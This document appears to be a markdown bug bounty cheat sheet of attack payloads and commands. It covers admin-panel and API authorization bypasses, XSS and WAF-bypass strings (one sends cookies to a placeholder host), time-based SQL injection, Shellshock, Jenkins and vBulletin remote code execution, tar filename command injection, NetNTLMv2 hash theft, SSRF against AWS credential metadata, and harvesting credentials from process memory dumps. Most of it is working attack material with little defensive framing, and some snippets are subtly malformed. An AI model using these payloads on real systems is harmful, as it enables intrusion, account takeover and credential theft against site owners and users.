

# September-2020 Bug Bounty Tips 
### Admin Panel Bypass tricks and techniques.
#### Example
```http
GET /admin HTTP/1.1
Host: web.com  ====> 403 Forbidden
```
#### Bypass
```http
GET /anything HTTP/1.1
Host: web.com
X-Original-URL: /admin  ====> 200 ok
```
#### Example
```http
/admin/panel  ====> 403 Forbidden
```
#### Bypass
```http
/admin/monitor  ====> 200 ok
/admin/monitor/;panel  ====> 302 Found
```
#### Example
```http
abc.com/admin  ====> 403 Forbidden
```
#### Bypass
```http
abc.com/admin/.  ====> 200 ok
abc.com//admin//  =====> 200 ok
abc.com/./admin/./ ====> 200 ok
abc.com/secret.txt/  ====> 403
abc.com/%2f/secret.txt/  ====> 200 ok
```
```http
https://abc.com/admin ===> 302
https://abc.com/admin..;/  ===> 200 ok
```
```http
sub.abc.com/web/admin/  ====> 302
sub.abc.com/web/aDmiN/  ====> 200 ok
sub.abc.com/web/aDmiN/FUZZ  ====> Sensitive Files
```
### Path Traversal
```http
https://abc.com/path ===> 403
https://abc.com%2e/path ===> 200 ok
```
### XSS Tip
##### Payload -1 
```js
">svg onx=() onload=(location.href='<BIN>/?mycookies='+document['cookie'])()>
```
##### Example
```js
"javascript:" xss blocked
```
##### Bypass
- add any number od \n,\t or \r in the middle of java\nScript:
- add characters from \x00-\x20 at the begining \x01javascript:
- Randomize thecase jaVAscrIpt:

##### Stored XSS and cloudflare bypass
```js
<a"/aonclick=(confirm)()>click
```
##### EX
use emojis to bypass payload
```js
😎<<svg/onload😎=/svg/onload=svg/onmouseOver=confirm'1'><!--😎//="
```
#### Parantheses less arbitrary xss in URL 
```js
onhashchange=setTimeout;
Object.prototype.toString=RegExp.prototype.toString;
Object.prototype.source=location.hash;
location.hash=null
```
#### XSS to WAF Bypass
**payload**
```js
'-(a=alert,b="_Yooo!_",[b].find(a))-'
<svg%09%0a%0b%0c%0d%0a%00%20onload=alert(1)>
<iframe src=%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
<script%20~~~>\u0061\u006C\u0065\u0072\u0074''</script%20~~~>
<svg onload='new Function'["_Y000!_"].find(al\u0065rt)''>
```
### IOS Mind map


### Github dorks
- https://github.com/techgaun/github-dorks

### Find domains that have "xyz" in whois
```bash
curl -H "User-Agent: Mozilla" "viewdns.info/reversewhois/?..." | grep -Po "<tr><td>[^<]+</td>" | cut -d '>' -f3 | cut -d '<' -f1
```
### Openredirect bypass Payloads
```js
/path?redirect=//2130706433
or 
/path?redirect=//0x7f000001
or 
@%E2%80%AE@moc.elgoog ==> https://test.com<payload_here>
```
it will redirect you to 127.0.0.1
**Tool to automate**
- [oralyzer](https://github.com/0xNanda/Oralyzer)

##### For bulk redirect check 
> **check this fuzzer**
- https://github.com/devanshbatham/OpenRedireX

### Time Based SQLi
```sql
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
```
### Pull endpoints from swagger
```bash
for i in 'curl -sK https://target/api/swagger.json | jq -r '.apis[].path'`;do echo $i;curl "https://target/$i" -iko /dev/null -sw "%{http_code}\n";done
```
### Pull URL from junk data using grep
```bash
cat file.txt | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```
```bash
curl https://abc.com/file.js | grep -Eo "(http|https)://[a-zA-Z0-9/?=_=]*"*
```
### Rate Limit Bypass
##### IP Rotation --> Sending new ip's
- Null byte --> %00,%0d,%0a,%09
- abc:email:test111@abc.com%00
- X-Forwarded-For: 127.0.0.1
- Double X-Forwarded-For: 127.0.0.1
- X-Remote-Ip: 127.0.0.1
- X-Originating-IP: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Host: 127.0.0.1

### Fetch Actuator from shodan
`org:abc.com http.favicon.hash:116323821`
- use the above query on shodan to find Spring Boot server and the chech for exposed actuators. 
- If /env is available you can possibly acheive RCE. 
- If /heapdump is accessible you may find private keys and tokens.
  
### Read Arbitrary Files
##### CVE-2020-5902
`https://[host]tmui/login.jsp/..;/tmui/localb/workspace/fileRead.jsp?filaName=/config/bigip.licence` ==also== `/config/bigip.confi`

### RCE on Jenkins Instance
##### To Display /etc/passwd
```java
def sout=new StringBuilder(), serr=new() StringBuilder()
def proc='cat /etc/passwd'.execute()
proc.consumeProcessOutput(sout,serr)
proc.waitForOrKill(1000)
println "out>$sout err> $serr"
```
### Got Root shell on a *nix system? Need to move laterally?
1. Find Processess where people might be logged in.Run (ps -A)
2. gcore $PID.
3. strings core.$PID.
4. Read credentials in clear Text. 

### Extension list for File Upload Bugs
```text
ASP ==> .aspx,.config,.ashx,.asmx,.aspq,.axd,.cshtm,.cshtml,.rem,.soap,.vbhtm,.vbhtml,.asa,.asp,.cer,.shtml
```
```text
PHP ==> .php,.php5,php3,.php2,.shtml,.html,.php.png(double extension attack)
```
#### Common Secret file paths
```sh
/.config.php,/.git.config/,////../../data/config/microsrv.cfg,//admin/config.php,/admin/config.php/,/administrator/webconfig.txt.php,/app.config,/audit.config,/Cassini.exe.config,/ccnet.config,/cgi-bin/config.exp,/conceptual.config,/config,/config.inc,/config.inc.php
```

### Common RCE Vulnerable Parameters
```sh
cmd,exec,command,execute,ping,query,jump,code,reg,do,func,arg,option,load,process,step,read,function,req,feature,exe,module,payload,run,print
```
### Found Grapql Endpoint
Send the following query to list the whole schema of the endpoint. it will list all objects and the fields they have.
```graphql
{
    __schema
    {
        types{
            name,
            kind,
            description,
            fields
            {
                name,
                type
                {
                    name
                }
            }
        }
    }
}
```
###### Note : If introspection is disabled it doesn't work.
### Recon Tip
#### Get content type of target URL
##### Install these tools 
- [Projectdiscovery-tools](https://github.com/projectdiscovery)
- [gau-tools](https://github.com/lc/gau)
##### Run this
```sh
echo abc.com | gau | grep '\.js$' | httpx -status-code -mc 200 -content-type | grep 'application/javascript'
```
#### Burpsuite Search Keywords
```text
uri=,url=,key=,.json,oauth,redirect=,api,dashboard,config,=http,&api,@(for user based URL for SSRF)
```
### Common Tips and Tricks
> **Using gospider and chaos**
```sh
chaos -d abc.com -bbq -filter-wildcard -http-url | xargs =l@-P5 sh -c 'gospider -a -s "@" -d 3'
```
---
**Auth-Bypass**

**Bash-Injection**
```http
User-Agent:() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id;
Pragme: no-cache
```
**Graphql Manipulation**

**Response Splitting**

#### Tricks from OFJAAAH
```sh
assetfinder http://att.com | sed 's#*.# #g' | httpx -silent -threads 10 | xargs -I@ sh -c 'ffuf -w path.txt -u @/FUZZ -mc 200 -H "Content-Type: application/json" -t 150 -H "X-Forwarded-For:127.0.0.1"'
```
---
```sh
echo "domain" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```
---
##### Extract URL from .apk
```sh
apktool -d com.uber -o uberAPK; grep -Phro "(https?://)[\w\,-/]+[\"\']" uberAPK/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|schemes.android\|google\|goo.gl"
```
It's Better good to include the tweet URLs
##### OFJAAAH important Tweets
- https://twitter.com/ofjaaah/status/1301656601724583936?s=20
- https://twitter.com/ofjaaah/status/1301666599259299841?s=20
- https://twitter.com/ofjaaah/status/1301670965672374273?s=20
- https://twitter.com/ofjaaah/status/1301698412061097985?s=20
- https://twitter.com/ofjaaah/status/1301884598603964417?s=20
- https://twitter.com/KingOfBugbounty/status/1301945115620016130?s=20
- https://twitter.com/vrkaushik/status/1301950916786966528?s=20
- https://twitter.com/ofjaaah/status/1301979769471463426?s=20
- https://twitter.com/ofjaaah/status/1302080260717121536?s=20
- https://twitter.com/ofjaaah/status/1302214901314629635?s=20
- https://twitter.com/sec715/status/1302112348769931265?s=20
- https://twitter.com/KingOfBugbounty/status/1302381012119441412?s=20
- https://twitter.com/ofjaaah/status/1302713182964809728?s=20
- https://twitter.com/ofjaaah/status/1302713182964809728?s=20
- https://twitter.com/ofjaaah/status/1302524437091291138?s=20
- https://twitter.com/ofjaaah/status/1303030877560209409?s=20

### Steal NetNTLMv2 hashes by changing SMB PORT
```powershell
net use \\IP@80\t
or pdf: /F(\\\\IP@80\\t)
or subdoc: ///IP@80/t
or doc: Target="file://IP@80/t.dotx"
or Ink:URL=file://IP@80/t.htm
```
### RCE on Bulletin 5xx
#### Google Dork
intext: "Powered by vBulletin"
##### Proof of Concept
```sh
curl -s http://SITE/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id");exit;'
```
### RCE via .tar File
#### Tip
```sh
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''id;'
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ ls
''$'\n''id;'  ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ tar -cf run.tar *
thevillagehacker@village:|02:49 PM|~/test$ chmod +x run.tar
thevillagehacker@village:|02:50 PM|~/test$ ./run.tar
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
./run.tar: line 2: 0000666000175000017500000000000013735317455011347: command not found
total 12
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''id;'
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''ls -l;'
-rwxrwxrwx 1 hacker hacker 10240 Oct  1 14:49  run.tar
./run.tar: line 3: 0000666000175000017500000000000013735317463011661: command not found
```
###### For Better Look

### Looking for an easy way to open arbitrary URLs in Android apps?
1. Download jadx decompiler and install adb
2. Open AndroidManifest.xml
3. Find all browser activities (must contain `<category android:name="android.intent.category.BROWSABLE"/>`)
4. Run "adb shell am start -n app_package_name/component_name -a android.intent.action.VIEW -d http://google.com" for each of the activities (or any of your domains). Also track in Burp any requests to http://google.com or your domain
5. If a domain is opened, it means you found a vulnerability! Now inspect the request if it contains any auth tokens (if yes, it means you've got an account takeover!). No? Try different techniques to obtain any PII. In the worst case you will get a reward like for an XSS
6. If you can just open arbitrary links in an app. And use http://google.com (remove the space) in the 4 step.
### Application Level DOS Confluence 7.6.2
1. Direct to site, site.atlassian.net
2. Parameter with following endpoint `/issues/?jql=`
3. Craft any Payload with it and search using jql=
4. Final URL `site.atlassian.Net/issues?jql=<payload-here>`
5. Perform same action for 5000 and more.
### H1 Reports
1. [ssrf-imgur](https://hackerone.com/reports/247680)
2. [Stored-xss](https://hackerone.com/reports/530511)
### FRIDA SSL Pinning
[Bypass-ssl-pinning](https://www.docdroid.net/zokUC70/android-ssl-pinning-pdf)
### Uncover Secrets
- [git-dumper](https://github.com/arthaud/git-dumper)
- [subjs](https://github.com/lc/subjs)
- [unmap](https://github.com/chbrown/unmap) 

> **Tip to use unmap**
1. Find Javascript files
2. ffuf -w js_file.txt -u FUZZ -mr "sourceMappingURL"
3. Download sourcemap
4. Browse config or just grep for APIkeys/Credential keywords.
### Blogs
- https://zerosum0x0.blogspot.com/2016/09/csrf-attack-for-json-encoded-endpoints.html
### Account Takeover
**Tip 1**
1. setup Burpsuite in Browser 1
2. Do password reset request in Browser 1
3. Open Password Reset email in Browser 2 and copy the token
4. Search your Burp History for the token you copied from reset token email
5. If you got the token in Burpsuite history then you got yourself a Account Takeover.
**Tip 2**

### API Bypass Tips
```http
{"id":111}  ====> 401 unauthorized
{"id":{"id":1111}}  ====> 200 ok
```
---
```http
POST /api/get_profile
Content-Type: application/json {"user_id":<attacker_id>,"user_id":<victim_id>}
```
---
```http
GET /api_v1/messages?User_id=victim_id  ====> 401 
GET /api_vi/messages?user_id=attacker&user_id=victim  ====> 200
```
---


---
### SSRF to access AWS MetaData
- Recon: Subfinder + waybackmachine + URL Probe
- Got valid sub with multiple function
- Sipder whole application using burp and any other automated tools
- Search for Keywords : url,ref,uri,callback
- if you found anything then inject aws IP after the keywords you searched like
`uri=//169.234.169.234/latest/meta-data/iam/security-credentials/flaws/`

### SSRF
---
```http
POST /something HTTP/1.0
HOST: abc.com
X-Forwarded-For: <burp-collab.net>
```
***Note:*** HTTP version change from 1.1 to 1.0
- [gf](https://github.com/1ndianl33t/Gf-Patterns) 
Tool Used to grep for things we know and we can also find a ssrf vulnerability.
***Usage***
```sh
subfinder -d abc.com | httprobe -c 100 > out.txt

cat out.txt | waybackurls | gf <keyword>
```
After manually check the URLs to make sure.

---

### Information Disclosures
> Install httpx
```sh
cat host.txt | httpx -path //server-status?full=true -status-code -conten-length
```
```sh
cat host.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length
```
---
***fuzz***
- use wfuzz
```sh
wfuzz -hc 403 -c -w enormousdns.txt -H "HOST:FUZZ.abc.com" abc.com
```
---
***Get source code***
```http
site.com/file.php  ====> 403
site.com/file.php~  ====> 200 ok <you will get source_code>
```
---
### SQL Injection
1. Found Blind SQL Injection 
2. use .sqlmap -r req -p vulns --dbs
3. if the backend db is firebird and if you can't retrive dbname or table
4. change payload to -r req -p vuln--level 3 --risk 3 --thread 8 --dbms Firebird --tables.

